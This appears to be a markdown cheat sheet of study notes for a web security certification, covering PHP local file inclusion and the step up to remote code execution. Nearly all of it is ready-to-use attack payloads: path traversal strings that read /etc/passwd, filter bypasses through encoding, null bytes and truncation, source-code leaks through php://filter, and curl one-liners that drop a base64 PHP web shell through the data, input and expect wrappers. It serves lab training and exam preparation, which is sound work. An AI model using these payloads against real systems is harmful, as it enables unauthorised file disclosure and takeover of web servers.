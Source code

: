 # File Inclusions  

>My BSCP study notes on [File Path Traversal aka File Inclusions](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study#file-path-traversal)  


## Local File Inclusion

| **Command** | **Description** |
| --------------|-------------------|
| **Basic LFI** |
| `/index.php?language=/etc/passwd` | [Basic LFI](https://academy.hackthebox.com/module/23/section/250) |
| `/index.php?language=../../../../etc/passwd` | LFI with path traversal - This is method to identify valid users on target server. |
| `/index.php?language=/../../../etc/passwd` | LFI with name prefix. |
| `GET /index.php?language=..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd` | [Using the file inclusion find the name of a user on the system](https://academy.hackthebox.com/module/23/section/251) |
| `/index.php?language=./languages/../../../../etc/passwd` | LFI with approved path |
| `GET /index.php?language=languages/....//....//....//....//...//flag.txt` | LFI with approved path of `languages/` in front and escaping filter. |
| **LFI Bypasses** |
| `/index.php?language=....//....//....//....//....//etc/passwd` | Bypass basic path [traversal filter](https://academy.hackthebox.com/module/23/section/1491) |
| `/index.php?language=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64` | Bypass filters with URL encoding - [Online URL Decode Encoder](https://www.urldecoder.org/) |
| `/index.php?language=non_existing_directory/../../../etc/passwd/./././.[./ REPEATED ~2048 times]` | Bypass appended extension with path truncation (obsolete) [Appended Extension - Path Truncation](https://academy.hackthebox.com/module/23/section/1491) |
| `echo -n "non_existing_directory/../../../etc/passwd/" && for i in {1..2048}; do echo -n "./"; done` | This bash script will produce the required 2048 times string traversal path to filter and truncate the php extension. |
| `/index.php?language=../../../../etc/passwd%00` | Bypass appended extension with `null byte` (obsolete) |
| `/index.php?language=php://filter/read=convert.base64-encode/resource=config` | Read source code for the PHP page with base64 filter - [Source Code Disclosure using PHP Filters](https://academy.hackthebox.com/module/23/section/1492) |


## Remote Code Execution  

>The expect wrapper, which allows us to directly run commands through URL streams. Expect works very similarly to the web shells.
>The data wrapper can be used to include external data, including PHP code. However, the data wrapper is only available to use if the `allow_url_include` setting is enabled in the PHP configurations.  
  
## PHP Wrappers  
  
| **Command** | **Description** |
| -------------- | -------------- |
| `/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id` | RCE [Remote Command Execution with data wrapper](https://academy.hackthebox.com/module/23/section/253) |
| `echo '<?php system($_GET["cmd"]); ?>' \| base64` | Produce the above used base64 string as a webshell that can be passed in to the data wrapper to get command execution |
| `curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"` | Checking PHP Configurations, Once we have the base64 encoded string, we can decode it and grep for allow_url_include to see its value |
| `curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id"` | RCE with input wrapper |
| `curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"` | RCE with expect wrapper |
